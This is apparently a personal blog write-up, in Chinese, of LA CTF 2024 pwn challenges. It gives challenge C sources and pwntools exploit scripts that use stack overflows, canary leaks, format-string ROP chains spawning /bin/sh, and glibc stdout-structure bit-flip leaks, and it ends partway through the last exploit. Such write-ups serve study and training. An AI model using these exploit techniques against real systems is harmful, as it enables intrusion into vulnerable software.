



# 2024-02-17-LA CTF-Pwn-WriteUps

---

title: 2024-02-17-LA CTF-Pwn-WriteUps
date: 2024-02-17T18:59:42Z
lastmod: 2024-02-26T11:46:53Z

---

# 2024-02-17-LA CTF-Pwn-WriteUps

- 没有意思的题，我只贴了exp
- 部分题目只是打的本地，远程没想调

‍

## aplet123

- 源码

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <unistd.h>

void print_flag(void) {
  char flag[256];
  FILE *flag_file = fopen("flag.txt", "r");
  fgets(flag, sizeof flag, flag_file);
  puts(flag);
}

const char *const responses[] = {"L",
                                 "amongus",
                                 "true",
                                 "pickle",
                                 "GINKOID",
                                 "L bozo",
                                 "wtf",
                                 "not with that attitude",
                                 "increble",
                                 "based",
                                 "so true",
                                 "monka",
                                 "wat",
                                 "monkaS",
                                 "banned",
                                 "holy based",
                                 "daz crazy",
                                 "smh",
                                 "bruh",
                                 "lol",
                                 "mfw",
                                 "skissue",
                                 "so relatable",
                                 "copium",
                                 "untrue!",
                                 "rolled",
                                 "cringe",
                                 "unlucky",
                                 "lmao",
                                 "eLLe",
                                 "loser!",
                                 "cope",
                                 "I use arch btw"};

int main(void) {
  setbuf(stdout, NULL);
  srand(time(NULL));
  char input[64];
  puts("hello");
  while (1) {
    gets(input);    // 溢出
    char *s = strstr(input, "i'm");
    if (s) {
      printf("hi %s, i'm aplet123\n", s + 4);
    } else if (strcmp(input, "please give me the flag") == 0) {
      puts("i'll consider it");
      sleep(5);
      puts("no");
    } else if (strcmp(input, "bye") == 0) {
      puts("bye");
      break;
    } else {
      puts(responses[rand() % (sizeof responses / sizeof responses[0])]);
    }
  }
}

```

- exploit

```python
from pwn import *

io = process('./aplet123')

#pay = pay.ljust(0x48,b'A') + p64(0x004011e6) * 0x100
pay = (72-3) * b'A' + b"i'm"

io.sendline(pay)
io.recvuntil('hi ')
x = u64(io.recv(7)+b'\x00')<<8
print(hex(x))

pay = b'bye\x00'.ljust(0x48,b'A') + p64(x)*2 +p64(0x004011e6)

#gdb.attach(io)
io.sendline(pay)

io.interactive()
```

‍

## 52-card-monty

- source

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

#define DECK_SIZE 0x52
#define QUEEN 1111111111

void setup() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);

  srand(time(NULL));
}

void win() {
  char flag[256];

  FILE *flagfile = fopen("flag.txt", "r");

  if (flagfile == NULL) {
    puts("Cannot read flag.txt.");
  } else {
    fgets(flag, 256, flagfile);
    flag[strcspn(flag, "\n")] = '\0';
    puts(flag);
  }
}

long lrand() {
  long higher, lower;
  higher = (((long)rand()) << 32);
  lower = (long)rand();
  return higher + lower;
}

void game() {
  int index;
  long leak;
  long cards[52] = {0};
  char name[20];

  for (int i = 0; i < 52; ++i) {
    cards[i] = lrand();
  }

  index = rand() % 52;
  cards[index] = QUEEN;

  printf("==============================\n");

  printf("index of your first peek? ");
  scanf("%d", &index);
  leak = cards[index % DECK_SIZE];
  cards[index % DECK_SIZE] = cards[0];
  cards[0] = leak;
  printf("Peek 1: %lu\n", cards[0]);

  printf("==============================\n");

  printf("index of your second peek? ");
  scanf("%d", &index);
  leak = cards[index % DECK_SIZE];
  cards[index % DECK_SIZE] = cards[0];
  cards[0] = leak;
  printf("Peek 2: %lu\n", cards[0]);

  printf("==============================\n");

  printf("Show me the lady! ");
  scanf("%d", &index);

  printf("==============================\n");

  if (cards[index] == QUEEN) {
    printf("You win!\n");
  } else {
    printf("Just missed. Try again.\n");
  }

  printf("==============================\n");

  printf("Add your name to the leaderboard.\n");
  getchar();
  printf("Name: ");
  fgets(name, 52, stdin);

  printf("==============================\n");

  printf("Thanks for playing, %s!\n", name);
}

int main() {
  setup();
  printf("Welcome to 52-card monty!\n");
  printf("The rules of the game are simple. You are trying to guess which card "
         "is correct. You get two peeks. Show me the lady!\n");
  game();
  return 0;
}

```

‍

- exploit

```python
from pwn import *

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

context.arch      = 'amd64'
context.log_level = 'debug'
context.terminal  = ['tmux','splitw','-h','-l','130']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.RE:
        return remote()
    else:
        return process([binary] + argv, *a, **kw)


binary = './monty'
libelf = ''

if (binary!=''): elf  = ELF(binary) ; rop=ROP(binary);libc = elf.libc
if (libelf!=''): libc = ELF(libelf)

gdbscript = '''
brva 0x00139D
'''.format(**locals())
from ctypes import *
import time

dll = CDLL('/usr/lib/x86_64-linux-gnu/libc.so.6')
dll.srand(int(time.time()))
io = start(binary)


v4 = []
for i in range(0x34):
    OXFF = ((1<<64) - 1)
    v1 = (dll.rand() << 32) & OXFF
    v2 = (dll.rand() + v1)
    v4.append(hex(v2))

num1 = dll.rand() % 52
print(v4)
print(hex(num1),hex(0x423A35C7))

ru('index of your first peek? ')
sl(str(0x39))
ru('Peek 1: ')
main = int(io.recvline())
win = main - elf.sym['main'] +  0x1239 - 48
ru('index of your second peek?')
sl(str(0x37))
ru('Peek 2:')
c = int(io.recvline())
#
lss('main')
lss('c')
sl('1')
ru(':')
gdb.attach(io)
pay = b'A' * 0x18 + p64(c) * 2 +p64(win)
sl(pay)
#gdb.attach(io,gdbscript)

io.interactive()
```

‍

## sus

```python
from pwn import *

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

context.arch      = 'amd64'
context.log_level = 'debug'
context.terminal  = ['tmux','splitw','-h','-l','130']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.RE:
        return remote('chall.lac.tf', 31284)
    else:
        return process([binary] + argv, *a, **kw)


binary = './sus'
libelf = ''

if (binary!=''): elf  = ELF(binary) ; rop=ROP(binary);libc = elf.libc
if (libelf!=''): libc = ELF(libelf)

gdbscript = '''
continue
'''.format(**locals())

io = start(binary)


ru('sus?\n')
#gdb.attach(io,'b *0x0401197')

pay = p64(elf.got['puts']) * 8 + p64(elf.bss()+0x800) + p64(0x040117F)
sl(pay)

#libc = ELF('/mnt/hgfs/Downloads/libc6_2.36-9+deb12u4_amd64.so')

libc_base = uu64(r(6)) - libc.sym['puts']
system = libc_base + libc.sym['system']
bin_sh = libc_base + next(libc.search(b'/bin/sh'))

lss('libc_base')

pause()
pay = p64(bin_sh) *8 + p64(elf.bss()) + p64(system)
sl(pay)
io.interactive()
```

‍

## pizza

‍

```python
from pwn import *

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

context.arch      = 'amd64'
context.log_level = 'debug'
context.terminal  = ['tmux','splitw','-h','-l','130']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.RE:
        return remote('chall.lac.tf',31134)
    else:
        return process([binary] + argv, *a, **kw)


binary = './pizza'
libelf = ''

if (binary!=''): elf  = ELF(binary) ; rop=ROP(binary);libc = elf.libc
if (libelf!=''): libc = ELF(libelf)

gdbscript = '''
brva 0x0139A
brva 0x01402
#continue
'''.format(**locals())

io = start(binary)

def sp(pay):

    ru('> ')
    sl('12')
    ru(': ')
    sl(pay)

    ru('> ')
    sl('11')
    ru('> ')
    sl('11')

#29:0148│+008 0x7ffeae5ca888 —▸ 0x7cd23bc280d0 (__libc_start_call_main+128) ◂— mov edi, eax
#2a:0150│+010 0x7ffeae5ca890 —▸ 0x7ffeae5ca980 —▸ 0x7ffeae5ca988 ◂— 0x38 /* '8' */

# 只测试的本地环境 偏移，远程没去搞
pay  = f'++%{6+0x29}$p-'
pay += f'%{6+0x2a}$p-'
sp(pay)

ru('++')
libc_base = int(ru('-'),16) - 164048
ret_stack = int(ru('-'),16) - 248

system  = libc_base + libc.sym['system']
bin_sh  = libc_base + next(libc.search(b'/bin/sh'))
pop_rdi = libc_base + next(libc.search(asm('pop rdi; ret')))

lss('libc_base')
lss('ret_stack')
ru('Order another pizza? (y/n): ')
sl('y')

pay1 = fmtstr_payload(6,{ret_stack:pop_rdi+1},write_size='short')
pay2 = fmtstr_payload(6,{ret_stack+0x08:pop_rdi},write_size='short')
pay3 = fmtstr_payload(6,{ret_stack+0x10:bin_sh},write_size='short')
pay4 = fmtstr_payload(6,{ret_stack+0x18:system},write_size='short')


sp(pay1)
ru('Order another pizza? (y/n): ')
sl('y')

sp(pay2)
ru('Order another pizza? (y/n): ')
sl('y')

sp(pay3)
ru('Order another pizza? (y/n): ')
sl('y')

#gdb.attach(io,gdbscript)
sp(pay4)
ru('Order another pizza? (y/n): ')
sl('n')

itr()
```

‍

‍



‍

## ppplot (pass)

‍

UAF

‍

‍

## flipma

> 这题主要是利用 *IO_2_1_stdout*  泄露地址和利用泄露地址的偏移去修改任意地址内容

- 源代码·

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int flips = 4;

long readint() {
	char buf[0x10];
	read(0, buf, sizeof(buf));
	return atol(buf);
}

void flip() {
	write(1, "a: ", 3);
	long a = readint();
	write(1, "b: ", 3);
	long b = readint();
	if(b < 0 || b >= 8) {
		puts("we're flipping bits, not burgers");
		return;
	}
	char v = *(((char*)stdin)+a);
	v ^= 1 << b;
	*(((char*)stdin)+a) = v;
	flips--;
}

int main() {
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	for(;;) {
		if(flips <= 0) {
			puts("no more flips");
			return 0;
		}
		flip();
	}
}
```

‍

‍

### 关于 `_IO_2_1_stdout_`

‍

- ‍
- 未 setbuf

```c
pwndbg> p _IO_2_1_stdout_
$1 = {
  file = {
    _flags = -72540028, # hex(0xFF_FF_FF_FF - 72540028)  0xfbad2083
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x0,
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
    _IO_buf_end = 0x0,
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7ffff7dfe8e0 <_IO_2_1_stdin_>,
    _fileno = 1,
    _flags2 = 0,
    _old_offset = -1,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x7ffff7e00710 <_IO_stdfile_1_lock>,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x7ffff7dfe7e0 <_IO_wide_data_1>,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = 0,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7ffff7dfd070 <_IO_file_jumps>
```

- setbuf 后

```c
pwndbg> p _IO_2_1_stdout_
$3 = {
  file = {
    _flags = -72540025,  # hex(0xFF_FF_FF_FF - 72540025) 0xfbad2086
    _IO_read_ptr = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_read_end = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_read_base = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_write_base = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_write_ptr = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_write_end = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_buf_base = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "",
    _IO_buf_end = 0x7ffff7dff644 <_IO_2_1_stdout_+132> "",
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7ffff7dfe8e0 <_IO_2_1_stdin_>,
    _fileno = 1,
    _flags2 = 0,
    _old_offset = -1,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x7ffff7e00710 <_IO_stdfile_1_lock>,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x7ffff7dfe7e0 <_IO_wide_data_1>,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = 0,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7ffff7dfd070 <_IO_file_jumps>
}
```

- 执行 一次 puts 后

```c
pwndbg> p _IO_2_1_stdout_
$4 = {
  file = {
    _flags = -72537977,    # hex(0xFF_FF_FF_FF - 72537977) 0xfbad2886
    _IO_read_ptr = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "\n",
    _IO_read_end = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "\n",
    _IO_read_base = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "\n",
    _IO_write_base = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "\n",
    _IO_write_ptr = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "\n",
    _IO_write_end = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "\n",
    _IO_buf_base = 0x7ffff7dff643 <_IO_2_1_stdout_+131> "\n",
    _IO_buf_end = 0x7ffff7dff644 <_IO_2_1_stdout_+132> "",
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7ffff7dfe8e0 <_IO_2_1_stdin_>,
    _fileno = 1,
    _flags2 = 0,
    _old_offset = -1,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "\n",
    _lock = 0x7ffff7e00710 <_IO_stdfile_1_lock>,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x7ffff7dfe7e0 <_IO_wide_data_1>,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = -1,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7ffff7dfd070 <_IO_file_jumps>
}
```

‍

‍

### 程序分析

‍

‍



‍

```python
1 << 0 = 0x1
1 << 1 = 0x2
1 << 2 = 0x4
1 << 3 = 0x8
1 << 4 = 0x10
1 << 5 = 0x20
1 << 6 = 0x40
1 << 7 = 0x80
```

‍

- 可以控制 `_IO_2_1_stdin_ + v1` ，差不多就是任意地址了 , 后面的 1 << v2 可以计算

### 利用

- 首先想要泄露 地址， 可以尝试 从 `_IO_2_1_stdout_` 下手 （控制v1 的偏见即可）

```python
pwndbg> p &_IO_2_1_stdin_
$7 = (struct _IO_FILE_plus *) 0x7ffff7dfe8e0 <_IO_2_1_stdin_>

pwndbg> p &_IO_2_1_stdout_
$8 = (struct _IO_FILE_plus *) 0x7ffff7dff5c0 <_IO_2_1_stdout_>

pwndbg> p 0x7ffff7dff5c0-0x7ffff7dfe8e0
$9 = 3296 # 得到偏移

pwndbg> p (char *)&_IO_2_1_stdin_ + 3296
$11 = 0x7ffff7dff5c0 <_IO_2_1_stdout_> "\207(\255", <incomplete sequence \373>
pwndbg>
```

- 先来了解一下 利用 `_IO_2_1_stdout_` 任意地址泄露

```c
pwndbg> p _IO_2_1_stdout_
$1 = {
  file = {
    _flags = -72537977,
    _IO_read_ptr = 0x74036dbff643 <_IO_2_1_stdout_+131> "\n",

    // 主要是这里 
    _IO_read_end = 0x74036dbfd643 "m\003t",
    _IO_read_base = 0x74036dbff643 <_IO_2_1_stdout_+131> "\n",
    _IO_write_base = 0x74036dbfd643 "m\003t",
    _IO_write_ptr = 0x74036dbff643 <_IO_2_1_stdout_+131> "\n",


    _IO_write_end = 0x74036dbff643 <_IO_2_1_stdout_+131> "\n",
    _IO_buf_base = 0x74036dbff643 <_IO_2_1_stdout_+131> "\n",
    _IO_buf_end = 0x74036dbff644 <_IO_2_1_stdout_+132> "",
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x74036dbfe8e0 <_IO_2_1_stdin_>,
    _fileno = 1,
    _flags2 = 0,
    _old_offset = -1,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "\n",
    _lock = 0x74036dc00710 <_IO_stdfile_1_lock>,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x74036dbfe7e0 <_IO_wide_data_1>,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = -1,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x74036dbfd070 <_IO_file_jumps>
}
```

‍

‍


‍

- 然后去修改 elf bss 上 flips 的值

‍

- 二进制位差异反转, 后面会用到

```python
buf = 0xfedc_ba09_8765_4321 # 这是实际内容
dst = 0x1234_5678_90ab_cdef # 例如这是我们想修改为的值
print(bin(dst))
for i in range(8):
    for j in range(8):
        if (buf >> (i*8+j)) & 1 != (dst >> (i*8+j)) & 1:
            v = j + i * 8  
            buf ^= (1 << v)
            print(hex(buf))

```

‍

```python
from pwn import *

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

context.arch      = 'amd64'
context.log_level = 'debug'
context.terminal  = ['tmux','splitw','-h','-l','130']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.RE:
        return remote()
    else:
        return process([binary] + argv, *a, **kw)


binary = './flipma'
libelf = ''

if (binary!=''): elf  = ELF(binary) ; rop=ROP(binary);libc = elf.libc
if (libelf!=''): libc = ELF(libelf)

gdbscript = '''
brva 0x012F5
#continue
'''.format(**locals())

io = start(binary)
def flipma(a,b):
    ru("a:")
    sl(str(a))
    ru('b:')
    sl(str(b))


stdout_flags = 0xce0
read_end = stdout_flags+0x10
write_base = stdout_flags+0x20

#flipma(1,8)
flipma(1,8)
flipma(write_base+1, 5)
flipma(read_end+1, 5)   #ipma(9,9)
flipma(1,8)

data = ru("we're")[6:]
print(hexdump(data))
elf_base = uu64(data[0x900:0x900+8]) - 16432
libc_base = uu64(data[0x20:0x20+8])  - 564448
libc.address = libc_base
flips = elf_base + 0x4010 + 1
stdin = libc.sym._IO_2_1_stdin_
flipma(flips - stdin, 7)   #ipma(9,9) 增加可用次数


# bit
# 下面写的很精妙
# 二进制位差异反转
def write(a, old, new):
    for i in range(8):
        for j in range(8):
            if (old >> (i*8+j)) & 1 != (new >> (i*8+j)) & 1: # 0b11111111
                flipma( a+i - stdin, j)


lss('elf_base')
lss('libc_base')
lss('flips')

 
write(libc.sym._IO_2_1_stdout_+8*2, libc.sym._IO_2_1_stdout_+131, libc.sym.environ-8)
write(libc.sym._IO_2_1_stdout_+8*4, libc.sym._IO_2_1_stdout_+131, libc.sym.environ-8)
write(libc.sym._IO_2_1_stdout_+8*5, libc.sym._IO_2_1_stdout_+131, libc.sym.environ+8)
#gdb.attach(io)


gdb.attach(io,gdbscript)

flipma(1,8)
ru('\x00'*8)
stack = uu64(r(8)) - 344

lss('stack')


itr()
```

- 泄露 stack 地址，控制 `_IO_2_1_stdout_`​的 `_IO_read_end`​ `_IO_write_base`​ `_IO_write_ptr`， 即可再下一次 puts 时候泄露

```c
pwndbg> p _IO_2_1_stdout_
$1 = {
  file = {
    _flags = -72537977,
    _IO_read_ptr = 0x798b007ff643 <_IO_2_1_stdout_+131> "\n",
    _IO_read_end = 0x798b00806070 <fork_handlers+1936> "",    //this
    _IO_read_base = 0x798b007ff643 <_IO_2_1_stdout_+131> "\n",
    _IO_write_base = 0x798b00806070 <fork_handlers+1936> "",  //this
    _IO_write_ptr = 0x798b00806080 <ttyname_buf> "",          //this
    _IO_write_end = 0x798b007ff643 <_IO_2_1_stdout_+131> "\n",
    _IO_buf_base = 0x798b007ff643 <_IO_2_1_stdout_+131> "\n",
    _IO_buf_end = 0x798b007ff644 <_IO_2_1_stdout_+132> "",
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x798b007fe8e0 <_IO_2_1_stdin_>,
    _fileno = 1,
    _flags2 = 0,
    _old_offset = -1,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "\n",
    _lock = 0x798b00800710 <_IO_stdfile_1_lock>,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x798b007fe7e0 <_IO_wide_data_1>,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = -1,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x798b007fd070 <_IO_file_jumps>
}
pwndbg>
```

- 有了栈地址，就可用在 main 的返回地址 写ogg

‍


- 然后 清空 bss 段的 flips

‍



‍

- 完整exploit

```python
from pwn import *

s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

context.arch      = 'amd64'
context.log_level = 'debug'
context.terminal  = ['tmux','splitw','-h','-l','130']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.RE:
        return remote()
    else:
        return process([binary] + argv, *a, **kw)


binary = './flipma'
libelf = ''

if (binary!=''): elf  = ELF(binary) ; rop=ROP(binary);libc = elf.libc
if (libelf!=''): libc = ELF(libelf)

gdbscript = '''
brva 0x012F5
#continue
'''.format(**locals())

io = start(binary)
def flipma(a,b):
    ru("a:")
    sl(str(a))
    ru('b:')
    sl(str(b))


stdout_flags = 0xce0
read_end = stdout_flags+0x10
write_base = stdout_flags+0x20

#flipma(1,8)
flipma(1,8)
flipma(write_base+1, 5) 
flipma(read_end+1, 5)   #ipma(9,9)
flipma(1,8)

data = ru("we're")[6:]
print(hexdump(data))
elf_base = uu64(data[0x900:0x900+8]) - 16432
libc_base = uu64(data[0x20:0x20+8])  - 564448
libc.address = libc_base
flips = elf_base + 0x4010 + 1
stdin = libc.sym._IO_2_1_stdin_
